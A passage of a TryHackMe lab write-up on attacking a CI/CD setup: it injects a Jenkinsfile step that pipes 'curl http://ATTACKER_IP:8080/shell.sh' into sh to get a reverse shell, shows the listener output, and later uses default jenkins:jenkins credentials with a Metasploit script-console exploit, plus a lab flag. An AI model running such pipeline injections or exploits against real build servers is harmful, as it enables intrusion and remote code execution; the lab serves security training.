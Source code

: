 Finally, go to gitlab and add the following to the jenkinsfile. This will reach out the http server, download the shell.sh file and run it. This will then create a reverse shell and connect to our listener.  
```
pipeline { 
	agent any stages 
	{ stage('build') 
		{ steps 
			{ sh ''' 
				curl http://ATTACKER_IP:8080/shell.sh | sh 
				''' 
				} 
			} 
		} 
	}
```
With an luck we should see this in our listener
```
Connection received on jenkins.tryhackme.loc 55994 
/bin/sh: 0: can't access tty; job control turned off 
$ whoami 
ubuntu
```
Now just follow the steps in the mother:
![[Pasted image 20250227235000.png]]
![[Pasted image 20250227235019.png]]
We have the flag and have completed the task.
![[Pasted image 20250304210111.png]]
```
secure registry
secret management
dependency confusion
THM{7753f7e9-6543-4914-90ad-7153609831c3}
```
## Task 7: Securing the Build Server

Navigate to `http://jenkins.tryhackme.loc:8080` and log in with the default credentials `jenkins:jenkins`
![[Pasted image 20250227235326.png]]
![[Pasted image 20250227235403.png]]
This is good, we know some credentials, and now we can use the `msfconsole` to exploit those and get a shell. Let's start by running the `use exploit/multi/http/jenkins_script_console` to select the right exploit and see what we can do with it
![[Pasted image 20250227234214.png]]
Now let's configure it to work for the `jenkins` machine
![[Pasted image 20250227234415.png]]
Now that we have a shell let's go back to mother and see what we need to do to get the flag
![[Pasted image 20250227234813.png]]
Simply follow the steps that mother has for us...
![[Pasted image 20250227234719.png]]
![[Pasted image 20250227234648.png]]
Perfect our file is set up and all we have to do is tell the mother to verify that we have complete the task to get our flag: 
![[Pasted image 20250227234845.png]]
We have the flag let's move on.
![[Pasted image 20250304210446.png]]
```
```